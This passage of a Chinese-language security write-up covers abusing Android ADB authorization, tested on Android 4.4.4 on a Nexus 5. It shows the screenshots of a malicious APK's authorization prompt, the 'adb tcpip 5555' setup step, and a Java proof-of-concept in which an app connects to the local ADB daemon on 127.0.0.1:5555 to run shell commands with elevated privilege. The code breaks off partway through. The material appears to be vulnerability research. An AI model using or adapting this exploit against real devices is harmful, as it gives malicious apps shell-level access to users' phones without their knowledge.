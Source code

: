 **PC端授权窗口**
![](/Users/tasfa/Downloads/Screenshots/pc.png)

**apk恶意授权窗口**
![](/Users/tasfa/Downloads/Screenshots/apk.png)



### 0x03 漏洞利用
试验环境: Android 4.4.4 Nexus 5

PC端执行

``` shell
 adb tcpip 5555
```

作者攻击思路验证Poc:

```java
private void escalatePrivilege() {
    /*
        如果大于android 6.0
        需要使用预编译的adb可执行二进制文件
    */
        try {
            String[] connectCmd = {"adb","connect","127.0.0.1:5555"};
            String[] idCmd = {"adb","shell","id"};

            execCommand(connectCmd);
            execCommand(idCmd);

        } catch (Exception e) {
            Log.d(TAG, "escalatePrivilege: " + e.toString() );
        }
    }

    private void readData(InputStream inputStream){
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
        String data ;
        while (true) {
            try {
                data = reader.readLine();
                if(data == null) {
                    break;
                }
                Log.d(TAG, "output: " + data);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

    private Process execCommand(String[] cmds){
        ProcessBuilder builder = new ProcessBuilder();
        Process execCommandProcess = null;
        builder.command(cmds);
        builder.directory(this.getFilesDir());
        builder.redirectErrorStream(true);

        Map<String, String> env = builder.environment();
        env.put("HOME", this.getFilesDir().toString());
        env.put("TMPDIR", this.getFilesDir().toString());

        try {
            execCommandProcess = builder.start();
```